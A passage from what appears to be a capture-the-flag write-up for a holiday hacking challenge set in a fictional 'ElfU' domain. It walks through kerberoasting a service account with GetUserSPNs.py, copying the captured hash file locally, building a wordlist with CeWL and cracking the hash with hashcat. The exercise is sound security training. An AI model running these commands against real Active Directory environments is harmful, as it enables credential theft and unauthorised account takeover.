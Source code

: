``` title="ElfU System"
python3 ./GetUserSPNs.py elfu.local/nrsquaxzmg:Zapvnxoth@ -outputfile hashes.kerberoast
```
??? info "Screenshot"
    ![](image6.png)

We have now captured the password hash for the elfu_svc account into the file hashes.kerberoast.


### Step 4: Crack the Hash

Bring the file containing the password hash for the elfu_svc account back to our local system.
``` title="Local System"
scp -P 2222 nrsquaxzmg@grades.elfu.org:~/hashes.kerberoast ./
```
??? info "Screenshot"
    ![](image7.png)

Use CeWL to build a wordlist from the ElfU registration portal that we will use as a base for our password cracking attempt.
``` title="Local System"
cewl --with-numbers https://register.elfu.org/register > wordlist.txt
```

Now, crack the hash using the wordlist and the OneRuleToRuleThemAll rule file.
``` title="Local System"
hashcat -m 13100 -a 0 ./hashes.kerberoast --potfile-disable -r ./OneRuleToRuleThemAll.rule --force -O wordlist.txt
```
??? info "Screenshot"